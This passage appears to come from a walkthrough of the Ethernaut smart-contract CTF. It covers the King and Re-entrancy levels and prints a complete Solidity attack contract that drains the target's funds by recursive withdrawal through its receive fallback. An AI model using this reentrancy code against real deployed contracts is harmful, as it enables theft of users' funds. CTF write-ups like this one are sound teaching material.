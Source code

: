 By calling the `hack` function, our contract transfers an amount of eth equal to the current prize. This satisfies the require condition `msg.value >= prize || msg.sender == owner`. The hack contract is now the king. That being said, the `receive` function reverts when executed.

This breaks the game as it transfers the prize back to the contract.

## <a id="10"></a>Level 10 - Re-entrancy

### Objective

1. Steal all the funds from the contract.

#### Things that might help:

-   Untrusted contracts can execute code where you least expect it.
-   Fallback methods
-   Throw/revert bubbling
-   Sometimes the best way to attack a contract is with another contract.

<details><summary>Level Contract</summary></details>

### Exploit

This level is a textbook reentrancy attack. I write and deployed the following `Hack` contract.

```js
contract Hack {
    Reentrance target;

    constructor(address payable _targetAddress) public payable {
        target = Reentrance(_targetAddress);
    }

    function hack() external payable {
        target.donate{value: msg.value}(address(this));
        target.withdraw(msg.value);
    }

    receive() external payable {
        if(address(target).balance > 0){
            target.withdraw(msg.value);
        }
    }
}
```

Let's take note that the level contract has a balance of 0.001 eth.

I called the `hack` function with a value of 0.001 eth. This will calls `donate` with 0.001 eth and calls `withdraw` once for the same amount. The `receive` function is now trigerred, it withdraws a second time **in the same transaction**. The `Reentrance` contract is not empty.

## <a id="11"></a>Level 11 - Elevator
